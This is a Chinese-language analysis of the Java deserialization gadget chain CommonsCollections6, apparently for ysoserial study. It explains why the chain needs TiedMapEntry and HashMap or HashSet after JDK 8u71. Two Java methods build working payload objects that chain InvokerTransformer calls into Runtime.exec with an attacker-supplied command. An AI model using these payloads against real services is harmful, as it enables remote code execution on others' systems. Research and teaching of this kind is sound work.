 ```yaml
---
sidebar_position: 1
tags: [ysoserial, PPPYSO]
#slug: About Me
#title: About Me
---
```


# CommonsCollections6

## 0x01 修正 高版本不可行原因 - LinkedHashMap 

前面关于 LazyMap 利用时，提到这个利用方式是通过调用 `readObject()` 方法根据序列化数据重建对象后，进入代理对象的 `invoke()` 方法实现利用。

在 jdk 8u71 之前的版本，`readObject()` 进入后，通过 `s.defaultReadObject();` 将 `memberValues` 还原为 LazyMap 形成调用，这里很好理解。

为了更好的理解，我们将调用链中的 `AnnotationInvocationHandler` 分成 `AH@1` 和 `AH@2` 两个来理解

> `AH@1` 用于装饰 LazyMap，是通过传入构造方法创建的
>
> `AH@2` 再次使用，对 `AH@1` 进行代理，形成嵌套结构

知道这个后，那么初始进入 `readObject()` 时，是不是就该执行 `AH@1`? 如果 `AH@1` 这个过程就改变了 `memberValues` 值是不是没办法继续进入 `AH@2` 的流程？而 jdk 8u71 中执行完 `readObject()` 后会将 `LinkedHashMap` 赋值到 `memberValues` 中，逻辑闭环也就走不通了。

![image-20231221212024044](attachments/image-20231221212024044.png)

在实际调用的时候，在 `readObject()` 方法打断点，可以看到确实进入了两次 `readObject()` 方法，并且在第一次进入时的 469 行修改 mv 为 `memverValue` 即 lazyMap 是可以利用成功的。那为什么会反序列化两次呢？

因为 JVM 在处理多重封装的时候，会先将每个代理对象分别调用其关联的 `readObject()` 方法恢复状态。（动态代理机制需要代理类在反序列化时能够确保其代理接口和内部数据结构被完整地重建）

还是以 `LazyMap` 为例，既然通过 `entrySet()` 的方式走不通，那就再找找其他调用 `LazyMap.get()` 的方法。

## 0x02 TiedMapEntry

`org.apache.commons.collections.keyvalue.TiedMapEntry` 类的 `getValue()` 方法调用了 `map.get()` ，map 对象通过 `TiedMapEntry` 的构造方法赋值。

![image-20231221212550543](attachments/image-20231221212550543.png)

并且 `getValue()` 方法在 `TiedMapEntry.hashCode()` 中被调用。

![image-20230328140345449](attachments/image-20230328140345449.png)

## 0x03 HashMap

在分析 `URLDNS` 时提到 HashMap 是实现了 Serializable 的，在反序列化 HashMap 时会计算 key 的 hash 即会调用 `hashCode()`  方法进行计算，那么同样可以用这种方式触发 `TiedMapEntry.hashCode()`。当然也会遇到与之前一致的问题调用 `HashMap.put()` 时提前触发，再复习一下之前的解决思路。

1. URLDNS 反射调用 `putVal()` 写入 key
2. CC1 LazyMap 先传一个空的 `ChainedTransformer` ，再反射将有威胁的 `Transformer[]` 写入

实现如下：

```java
    public Serializable getObject(final String command) throws Exception {
        final String[] execArgs = new String[]{command};
        // inert chain for setup
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{new ConstantTransformer(1)});
        // real chain for after setup
        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class}, execArgs),
                new ConstantTransformer(1)};


        final Map innerMap = new HashMap();

        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry entry = new TiedMapEntry(lazyMap, "Whoopsunix");

        HashMap hashMap = new HashMap();
        hashMap.put(entry, "Whoopsunix");


        lazyMap.clear();

        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);

        return hashMap;
    }
```

## 0x04 HashSet

而在 ysoserial 中使用的则是 `java.util.HashSet` ，HashSet 基于 HashMap 来实现的，是一个不允许有重复元素的集合。HashSet 的值存在 HashMap key 上，value 恒为 `private static final Object PRESENT = new Object();`

![image-20230802143758190](attachments/image-20230802143758190.png)

在 `HashSet#readObject()` 中会直接对我们的输入流进行反序列化，并将该对象作为 key 值保存到 HashMap，`put()` 方法会执行 `hashCode()` 方法计算 key 的 hash。（ hashcode() 方法广泛的运用在 Map 的各种操作，比如 get、put、remove等）

所以总结起来这条 gadget 的大致实现思路： `java.util.HashSet#readObject()` -> `HashMap#put()` -> `HashMap#hash(key)` -> `TiedMapEntry#hashCode()` 

我们注意到 ysoserial 中是实现反射获取了 HashMap 中的 table 属性（即 HashMap 的底层存储），通过反射的方式将 table中的 key 值修改为 HashSet ，那么如果直接向 HashSet 中添加 entry 对象会发生什么？

![image-20230328164611397](attachments/image-20230328164611397.png)

在序列化时执行 HashMap 的 put() 方法时会计算 key 的 hashcode，而这时的 key 值为 TiedMapEntry，根据 HashMap 的 hash() 方法，会执行其 hashCode() 方法。

![image-20230802142258547](attachments/image-20230802142258547.png)

TiedMapEntry.hashCode() 调用 getValue() ，其中的 map 通过 TiedMapEntry 构造方法赋值为 Lazymap

![image-20230802143306526](attachments/image-20230802143306526.png)

LazyMap get() 方法由于不存在 foo 这个 key 所以执行 put() 方法。那么反序列化的时候再进入 get() 方法时就不满足 if 条件，所以 ysoserial 中通过反射更改了这个 key 值为 TiedMapEntry。

![image-20230328165538075](attachments/image-20230328165538075.png)

但我们思考一下，既然问题出在 LazyMap 存在 foo 这个 key ，HashSet 又需要 TiedMapEntry 对象作为 key ，那么可以针对第三点中 HashMap 的例子进行改造，HashSet 中传入 TiedMapEntry 作为 key ，再对 LazyMap 执行一次 `clear()` 去除因为 `HashMap.put()` 造成的影响，Hashmap 和 Hashset 的写法都可以。

缝合后如下：

```java
    public Serializable getObject(final String command) throws Exception {
        final String[] execArgs = new String[]{command};
        // inert chain for setup
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{new ConstantTransformer(1)});
        // real chain for after setup
        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class}, execArgs),
                new ConstantTransformer(1)};


        final Map innerMap = new HashMap();

        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry entry = new TiedMapEntry(lazyMap, "Whoopsunix");

        // way A
        HashMap hashMap = new HashMap();
        hashMap.put(entry, "Whoopsunix");
//        lazyMap.clear();
        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
        return hashMap;

        // way B
//        HashMap hashMap = new HashMap();
//        hashMap.put(entry, "Whoopsunix");
//        HashSet hashSet = new HashSet(hashMap.keySet());
//        lazyMap.clear();
//        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
//        return hashSet;
    }
```

